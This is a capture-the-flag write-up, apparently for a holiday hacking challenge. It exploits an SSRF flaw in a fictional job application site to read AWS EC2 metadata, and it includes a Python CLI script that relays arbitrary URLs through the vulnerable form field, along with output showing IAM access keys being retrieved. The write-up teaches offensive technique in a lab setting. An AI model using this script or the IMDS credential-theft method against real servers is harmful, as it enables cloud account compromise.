

# Solution


Objective 10 asks us to retrieve the secret access key from the [Jack Frost Tower
job application server](https://apply.jackfrosttower.com/). Completing the IMDS
terminal gives us a hint to solving the objective: we need to access an [internal Amazon AWS
service](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
to obtain EC2 metadata. As we don't have direct access to the EC2 instance the job
application server is running on, there is likely an SSRF vulnerability on the website,
where the web server will perform the request for us and return the data received.

## Initial Recon

Visiting the [job application page](https://apply.jackfrosttower.com/) gives us a simple
job application site:


with a simple web form for submitting a job applicaton:


One thing stands out: there is a field in the form for a URL to a **Naughty List
Background Investigation (NLBI)** report. 


If the web server uses the URL in the web form to request data, it may be possible
to abuse this field to request data that normally isn't available. 

## Exploiting the SSRF Vulnerability

By using the 
techniques from the IMDS terminal and the data from the page referenced in the hint,
we can submit a request to the web server and see if it retrieves data from the internal
address of `http://169.254.169.254/latest/meta-data`:



After submitting this, we get back a page with what appears to be a broken image:


Viewing the source of the web page shows a link to `images/{name}.png`, with the
name we submitted in the form:

``` html
<div class="col-sm-4">
<div class="card text-white bg-secondary mb-3" style="max-width: 20rem;">
  <div class="card-body">
  
  </div>
</div>
</div>
```


If we open a terminal and visit that URL with curl or wget, we see that the
file actually contains the data we requested from the internal AWS metadata service:

``` shell-session
$ curl https://apply.jackfrosttower.com/images/pugpug.jpg
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
...
```

## Automating the SSRF

The objective can be easily completed with just a browser and curl, but as I'm 
diving deeper into the application than just the objective, I wrote a quick Python
script to provide a CLI for requesting URLs from the service. It's based on a
template I developed after reading [0xdf](https://twitter.com/0xdf_)'s
[blog](https://0xdf.gitlab.io/), specifically his use of Python's `Cmd` module
to generate an easy to use CLI.

(seriously, go follow `0xdf_` on twitter and read his blog, it's awesome)

We start with Python boilerplate, defining the payload necessary to fill the web
form to trigger the SSRF:

``` python
#!/usr/bin/env python3

import argparse
import cmd
import os
import requests
import random
import sys

# Generate a random name to avoid conflicts with others
name = 'pugpug{:03d}'.format(random.randint(1, 999))

# The payload, copied from ZAProxy
payload = {
    'inputName': name,
    'inputEmail': 'pug@pug.pug',
    'inputPhone': '313-555-1212',
    'inputField': 'Aggravated pulling of hair',
    'resumeFile': '',
    'additionalInformation': '',
    'submit': ''
}
```

The `fetch()` function submits the data to the web form, sending the passed
argument as the `inputWorkSample` field. It then requests the image file 
containing the data from the triggered SSRF, returning the request data.

``` python
# Send two requests to the web server: the application submission, then
# request the 'image', returning whatever we pull back.
#
# parser.url is the URL of the website, from argparse
def fetch(args):
    # Set the URL field to whatever is passed in the argument
    payload['inputWorkSample'] = args
    r = requests.get(parser.url, params = payload)
    r = requests.get(parser.url + f'images/{name}.jpg')
    return r.text
```

The heart of the program uses the [`Cmd`](https://docs.python.org/3/library/cmd.html)
module to generate a command-line interface. After some boilerplate code to set up
the class, the `default` function calls `fetch()` with what was entered on the 
command line, printing the result to the screen.

``` python
# The CLI module
class Term(cmd.Cmd):
    # Boilerplate to make the CLI more friendly.
    prompt = 'ssrf> '
    def emptyline(self):
        pass
    def postloop(self):
        print()
    def do_exit(self, args):
        return True
    def do_EOF(self, args):
        return True

    # Main cmd loop: fetch whatever is entered at the prompt via the SSRF on
    # the web server, and print the result.
    def default(self, args):
        print(fetch(args))
```

The main program accepts two optional arguments: `--url` allows one to specify
a different URL to interact with, while `--file` specifies a single URL to request,
without running the CLI. This is useful for saving larger requested URLs without
copy/pasting.

``` python
# Main program. The code accepts two arguments:
#
# --file: retrieve a single URL/file and print it. Useful for one-shot
#         file retrieval and storage 
#         (e.g. ssrf.py --file https://google.com > google)
#
# --url: the top-leve URL to send requests to. Will come in handy if we're
#        able to duplicate the website functionality locally

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--file', dest='filename', 
            required=False, type=str, help='Filename to fetch')
    parser.add_argument('--url', dest='url', 
            default='https://apply.jackfrosttower.com/',
            required=False, help='Top-level URL')
    parser = parser.parse_args()

    if parser.filename:
        print(fetch(parser.filename))
    else:
        term = Term()
        term.cmdloop()
```

## Retrieving the Objective Data

With this script, we can easily request the current role associated with the instance
by querying 
`http://169.254.169.254/latest/meta-data/iam/security-credentials`, then use the
`role` returned to fetch the access keys:

``` shell-session
$ python3 apply-ssrf.py
ssrf> http://169.254.169.254/latest/meta-data/iam/info
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "InstanceProfileArn": "arn:aws:iam::896453262835:instance-profile/jf-deploy-role",
        "InstanceProfileId": "AIPA5BOGHHXZELSK34VU4"
}
ssrf> http://169.254.169.254/latest/meta-data/iam/security-credentials
jf-deploy-role
ssrf> http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

The SecretAccessKey is **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**
